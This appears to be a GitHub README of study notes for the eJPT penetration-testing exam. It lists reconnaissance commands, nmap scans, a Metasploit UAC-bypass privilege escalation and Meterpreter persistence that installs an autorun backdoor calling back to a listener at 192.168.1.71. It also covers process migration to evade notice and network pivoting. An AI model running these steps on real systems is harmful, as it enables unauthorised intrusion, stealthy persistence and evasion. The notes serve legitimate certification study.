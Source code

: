 # eJPT
Some helps to pass eJPT
# Information Gathering
## Subdomain Enumeration
```
root@kali:~# sublist3r -v -d yahoo.com -w /usr/share/wordlists/
```
or we can use -b to bruteforce

we can enumerate the subdomains like FUZZ.thetoppers.htb with gobuster
```
gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```
# Footprinting & Scanning

## Ping Sweep
You can scan all network with nmap, -sn to disable port scan
```
root@kali:~# nmap -sn -n 10.142.111.0/24
```
but you can scanning entire network with fping
```
root@kali:~# fping -a -g 10.142.111.0/24 2> /dev/null
```
# Nmap
## OS Fingerprinting
```
nmap -Pn -A -O 10.10.10.10
```
## Quick scan
```
nmap -sC -sV -A -T4 10.10.10.10 --open
```
## Full scan
```
nmap -sC -sV -A -T4 -p- 10.10.10.10 --open
```

nmap vuln scan example:
--script-args=unsafe=1 is used if you don't want to "crash" the system.
```
nmap --script vuln --script-args=unsafe=1 -iL hosts.txt
```
# Spotting a firewall

If an nmap TCP scan identified a well-known service, such as a web server, but cannot detect the version, then there may be a firewall in place.

```
For example:
PORT    STATE  SERVICE  REASON          VERSION
80/tcp  open   http?    syn-ack ttl 64
```

Another example:

```
80/tcp  open   tcpwrapped 
```
“tcpwrapped” means the TCP handshake was completed, but the remote host closed the connection without receiving any data.

These are both indicators that a firewall is blocking our scan with the target!

Tips:

Use “–reason” to see why a port is marked open or closed
If a “RST” packet is received, then something prevented the connection - probably a firewall!

# httprint

httprint banner grabling:
```
httprint -P0 -s /usr/share/httprint/signatures.txt -h 10.10.10.15
```

# Metasploit
Start metasploit with

```
$ msfconsole
```
# Meterpreter
## Privileges Escalation
On windows machine
```
meterpreter> getsystem
```
if doesn't work, probably windows has UserControlAccess enabled,so:
```
meterpreter> run post/windows/gather/win_privs
```
look if is true, and then
```
meterpreter> background
msf exploit(handler)> search uac
```
```
msf exploit(handler)> use exploit/windows/local/bypassuac
msf exploit(handler)> sessions
msf exploit(handler)> set SESSION <n>
msf exploit(handler)> exploit
meterpreter> getsystem
```
## Persistence
```
meterpreter > run persistence -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location in target host to write payload to, if none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T   Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i   The interval in seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening for the connect back
```
We will configure our persistent Meterpreter session to wait until a user logs on to the remote system and try to connect back to our listener every 5 seconds at IP address 192.168.1.71 on port 443.
```
meterpreter > run persistence -U -i 5 -p 443 -r 192.168.1.71
[*] Creating a persistent agent: LHOST=192.168.1.71 LPORT=443 (interval=5 onboot=true)
[*] Persistent agent script is 613976 bytes long
[*] Uploaded the persistent agent to C:\WINDOWS\TEMP\yyPSPPEn.vbs
[*] Agent executed with PID 492
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
[*] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
[*] For cleanup use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
meterpreter >
```
To verify that it works, we reboot the remote system and set up our payload handler.
```
meterpreter > reboot
Rebooting...
meterpreter > exit

[*] Meterpreter session 3 closed.  Reason: User exit
msf exploit(ms08_067_netapi) > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.71
LHOST => 192.168.1.71
msf exploit(handler) > set LPORT 443
LPORT => 443
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.71:443
[*] Starting the payload handler...
```
## Migrate PID to another PID to look less sus
```
meterpreter> getpid
meterpreter> ps -U SYSTEM //process with system privilege, choose one
meterpreter> migrate PID
```
# Pivoting
When we get access into a machine, we can check with ifconfig if there is another network which we couldn't access.
So let add the route to this network in msfconsole.
```
meterpreter> run autoroute -h
```
autoroute allow us to add a route to the network.
```
route add 192.69.228.0 255.255.255.0 1
```
for adding manually a route on msfconsole:

add //the command

subnet //subnet to connect

netmask //netmask of the subned

sid //meterpter session id

# SQLI
Intresting link with SQLI payloads: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass
